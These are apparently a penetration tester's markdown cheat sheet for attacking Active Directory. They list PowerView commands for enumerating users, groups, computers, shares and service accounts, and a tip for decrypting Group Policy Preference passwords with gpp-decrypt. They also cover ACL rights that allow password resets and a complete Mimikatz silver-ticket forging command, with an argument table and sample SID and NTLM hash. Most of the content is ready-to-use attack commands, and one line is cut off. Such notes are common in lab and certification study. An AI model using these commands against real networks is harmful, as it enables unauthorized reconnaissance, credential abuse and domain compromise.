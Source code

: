 ```
Get-NetUser | select cn,pwdlastset,lastlogon
Get-NetGroup | select cn,description
Get-NetGroup "Sales Department" | select member


Get-NetComputer
Get-NetComputer | select operatingsystem,dnshostname

```

#### Step 1: users and groups
```
Get-NetUser | select cn,pwdlastset,lastlogon      //
Get-NetGroup | select cn                          // Common name 
Get-NetGroup "GroupName" | select member
```


#### Step 3 other machines
```
Find-LocalAdminAccess                            // Finds computers on the network where the current user has Admin access, from Powerview
Get-NetComputer | Select name                    // From PowerView
.\PsLoggedOn.exe \\COMPUTER_NAME                 // Finds where other users are/have logged on, from SysInternals. Requires the "Remote Registry" service to be enabled on the target, if not, use "Get-NetSession -ComputerName NAME"
.\PsLoggedOn.exe \\
```


### Domain shares
```
Find-DomainShare                                 // From PowerView, enumerated AD domain shares, might take 1-5 minutes
Find-DomainShare -CheckShareAccess               // Only display available shares, might take 1-5 minutes
ls \\dc1.corp.com\sysvol\corp.com\               // Example on connecting via Powershell
```
Note: if there are any readable Policy files, there will be an `AES-256`-encrypted password. To decrypt it, use `gpp-decrypt`


### SPN (Service Principle Name)
SPNs are the unique identifiers of Service Accounts. Using them, we can find out what IPs and ports a service uses.
```
Get-NetUser -SPN | select samaccountname,serviceprincipalname            // From powerview.ps1
setspn.exe -L SAMACCOUNTNAME
setspn.exe -L USERNAME
```
To get the IP, use
```
nslookup.exe web04.corp.com
```


### ACL / ACE
The Access Controll List (ACL) and Access Control Entries (ACE) decide user-specific accesses to AD objects. 
```
GenericAll: Full permissions on object                 (Exploit by resetting password)
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group
```

To list:
```
// Permissions of users in a group (not the group itself) to find targets
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights  
```


### Silver tickets
#### When to use:
- If a service hash was found, but no access to the server with the compromised users

```
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```
- To check if the ticket is enabled in memory, use the `klist`
- If the target is HTTP, use `iwr -UseDefaultCredentials http://TARGET`

| Argument   | Description                                         | Example                                    | Command                                                          |
| ---------- | --------------------------------------------------- | ------------------------------------------ | ---------------------------------------------------------------- |
| `/sid`     | The domain SID (the user SID without the last part) | `S-1-5-21-1987370270-658905905-1781884369` | `whoami /user`                                                   |
| `/domain`  | The domain name                                     | `corp.com`                                 | `Get-Domain`                                                     |
| `/ptt`     | Enable passing the ticket                           |                                            |                                                                  |
| `/target`  | The full name of the target machine                 | `web04.corp.com`                           | `Get-NetUser -SPN \| select samaccountname,serviceprincipalname` |
| `/service` | The protocol of the SPN                             | `http`                                     | `Get-NetUser -SPN \| select samaccountname,serviceprincipalname` |
| `/rc4`     | The NTLM hash of the SPN                            | `4d28cf5252d39971419580a51484ca09`         | `sekursla::logonpasswords`                                       |
| `/user`    | The user, can be any.                               | `jeff`                                     | `Get-DomainUser`                                                 |
